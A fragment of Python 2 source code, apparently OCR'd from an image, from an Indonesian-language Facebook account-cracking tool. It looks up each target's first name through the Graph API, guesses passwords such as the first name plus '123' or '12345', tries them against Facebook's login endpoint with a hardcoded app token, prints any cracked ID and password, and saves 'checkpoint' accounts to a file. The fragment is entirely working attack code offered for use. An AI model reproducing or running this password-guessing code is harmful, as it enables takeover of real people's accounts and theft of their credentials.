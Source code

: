 		menu()
	else:
		print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
		pilih_super()
	
	print "\033[1;96m[+] \033[1;93mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name']+'123'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
				print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
				print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
				print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass1 + '\n'
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
					print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
					print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
					print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass1 + '\n'
					cek = open("out/super_cp.txt", "a")
					cek.write("ID:" +user+ " Pw:" +pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'12345'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
						print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
						print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
						print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass2 + '\n'
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
							print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
							print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
							print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass2 + '\n'
							cek = open("out/super_cp.txt", "a")